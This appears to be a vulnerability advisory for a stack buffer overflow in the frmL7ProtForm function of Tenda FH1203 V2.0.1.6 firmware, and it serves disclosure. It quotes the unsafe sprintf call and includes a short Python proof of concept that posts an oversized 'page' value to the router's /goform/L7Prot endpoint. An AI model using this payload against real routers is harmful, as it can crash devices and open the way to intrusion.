 # frmL7ProtForm

## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

There is a stack buffer overflow vulnerability in  FH1203 V2.0.1.6, located in the **frmL7ProtForm** function. The function receives the `page` parameter from a POST request. `   sprintf(v15, "firewall_proto_list.asp?page=%s", v10);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v15` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/5544755d-084f-451d-a7fe-33cc028751fe)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/L7Prot"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/766905c2-ed63-4bff-83c1-b9164697775b)

